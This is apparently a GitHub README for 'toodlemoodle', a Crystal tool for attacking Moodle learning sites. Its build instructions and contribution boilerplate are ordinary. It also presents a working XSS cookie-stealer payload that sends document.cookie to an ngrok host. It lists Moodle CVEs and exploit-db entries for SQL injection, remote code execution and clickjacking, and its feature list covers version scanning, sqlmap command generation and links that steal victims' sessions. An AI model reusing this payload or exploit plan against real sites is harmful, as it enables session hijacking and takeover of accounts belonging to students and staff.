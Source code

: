 # toodlemoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting

My cookie stealer:
<script>alert('xss');document.write('<img src="https://668da81e.ngrok.io/?cookie=' + document.cookie + '" />')</script>

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url

https://moodle.org/mod/forum/discuss.php?d=381230 3.6 could use a clickhijack to self

https://moodle.org/mod/forum/discuss.php?d=384011 3.6 (fresh!) enum events

https://www.cvedetails.com/cve/CVE-2017-2641/ used by exploit below

https://www.exploit-db.com/exploits/41828 3.2.1 SQL injection

https://www.exploit-db.com/exploits/46551 3.4.1 RCE, CVE below

https://www.cvedetails.com/cve/CVE-2018-1133/ 3.4.2 remote code exec for teacher "Calculated question"

fresher:

https://www.cvedetails.com/cve/CVE-2018-14630/ 3.5.2 remote code exec for (teacher?) "quiz import"

Features:
1. scan: detect version (working!), suggest supported exploits
2. view calendar events bypass
3. exploit quiz import and calculated question vulns
4. exploit 2018-1133 RCE
5. exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
6. add xss to account dashboard, generate clickjacker, using CVE-2019-3810 or CVE-2019-3847 to hijack session
7. add xss to calendar, generate link for victim to click and steal sesh

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/toodlemoodle.cr
```

You can also build an executable:
```
crystal build src/toodlemoodle.cr
```
Use the  --release flag for an optimized production build.

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer
